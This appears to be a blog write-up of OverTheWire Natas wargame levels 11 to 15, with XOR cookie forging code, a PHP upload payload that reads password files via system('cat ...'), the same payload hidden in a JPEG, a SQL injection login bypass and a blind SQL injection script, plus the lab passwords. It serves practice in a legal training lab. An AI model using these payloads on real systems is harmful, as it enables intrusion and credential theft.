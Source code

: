 ```yaml
---
title: Wargames - Natas
published: True 
tags: game natas
---
```


## [Level 10 -> Level 11](https://overthewire.org/wargames/natas/natas11.html)

Username: natas11
Lab URL: http://natas11.natas.labs.overthewire.org/

Source code view: 
```
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
```

Get key:

```
function xor_encrypt($in) {
    $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$data = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
echo xor_encrypt(json_encode($data));
# return qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

Encode new cookie:
```
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo base64_encode(xor_encrypt(json_encode($defaultdata)));
```

![Password](assets/natas/11/password.png)

password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## [Level 11 -> Level 12](https://overthewire.org/wargames/natas/natas12.html)

Username: natas12
Lab URL: http://natas12.natas.labs.overthewire.org/

To obtain password you need to upload php file to server. It will be automatilcy executed. Create file with following content: 

```
<?php system("cat /etc/natas_webpass/natas13"); ?>
```

To change file name to .php use burp. Aftel all you will get password.

password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## [Level 12 -> Level 13](https://overthewire.org/wargames/natas/natas13.html)

Username: natas13
Lab URL: http://natas13.natas.labs.overthewire.org/

Create valid jpeg file, and add to it: 

```
<?php system("cat /etc/natas_webpass/natas14"); ?>
```

![Password](assets/natas/13/password.png)

password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1


## [Level 14 -> Level 15](https://overthewire.org/wargames/natas/natas14.html)

Username: natas14
Lab URL: http://natas14.natas.labs.overthewire.org/

Classic SQL injection, payload: 

```
username: natas15 " or "1" =" 1 
password: Anything you want
```

![Password]()

password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## [Level 15 -> Level 16](https://overthewire.org/wargames/natas/natas16.html)

Username: natas15
Lab URL: http://natas15.natas.labs.overthewire.org/

In that case there is [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection). Using following pyhton code can be used to obtain password:

```
import requests
import string 

username = "natas15"
passwd = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

valid = "This user exists."

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and substr(password, {}, 1) like binary"{}&debug'.format(i, ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))

```

password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh